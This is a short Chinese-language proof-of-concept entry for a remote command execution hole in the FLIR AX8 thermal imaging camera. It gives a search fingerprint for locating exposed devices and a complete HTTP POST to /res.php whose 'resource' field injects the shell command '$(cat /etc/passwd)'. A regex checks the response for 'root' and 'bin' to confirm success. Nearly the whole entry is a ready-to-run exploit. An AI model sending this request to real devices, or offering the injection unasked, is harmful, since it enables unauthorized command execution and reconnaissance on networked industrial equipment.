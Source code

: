 ﻿# FLIR-AX8在线式红外热成像仪REC

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：app="FLIR-FLIR-AX8"

> 验证脚本：HTTP

```
POST /res.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

action=node&resource=$(cat /etc/passwd)
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：FLIR-AX8在线式红外热成像仪REC.poc
